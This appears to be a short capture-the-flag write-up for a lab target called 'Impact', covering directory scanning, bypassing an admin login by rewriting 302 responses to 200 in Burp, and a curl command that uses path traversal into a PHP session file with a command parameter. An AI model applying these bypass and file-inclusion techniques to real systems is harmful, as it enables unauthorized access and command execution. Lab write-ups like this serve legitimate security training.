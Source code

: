#+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering
#+begin_src sh
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_impact_hv-1760458064.state ...
[#>------------------] - 2m     19591/270037  75m     found:21      errors:4932
[##>-----------------] - 2m      3978/30000   28/s    http://impact.hv/
[##>-----------------] - 2m      3689/30000   27/s    http://impact.hv/js/
[#>------------------] - 2m      1784/30000   13/s    http://impact.hv/uploads/
[##>-----------------] - 2m      3770/30000   28/s    http://impact.hv/css/
[#>------------------] - 2m      2323/30000   18/s    http://impact.hv/fonts/
[>-------------------] - 2m      1461/30000   11/s    http://impact.hv/webadmin/
#+end_src

Is possible to bypass the login page with the /webadmin/ page, when we access /webadmin/ we are redirect to the /webadmin/login

With Burp, if we modify the response status code from 302 to 200, we bypass the login page. But this is possible with proxy intercet, where we can modify the response before reach the browser.

To modify and continue with the modified response, we need to create a match and replace rule on proxy settings ->

Create an rule where all 302 Response headers go to 200






*admin email* ->
: zerotrace@secretmail.hv



*User agent injection ->*
: [11:10][]~ ✮ curl -v "http://impact.hv/search.php?name=../../../../../../../var/lib/php/sessions/sess_95j17bn4agoa0kql3k7mtl1o0f&cmd=sleep%2010"
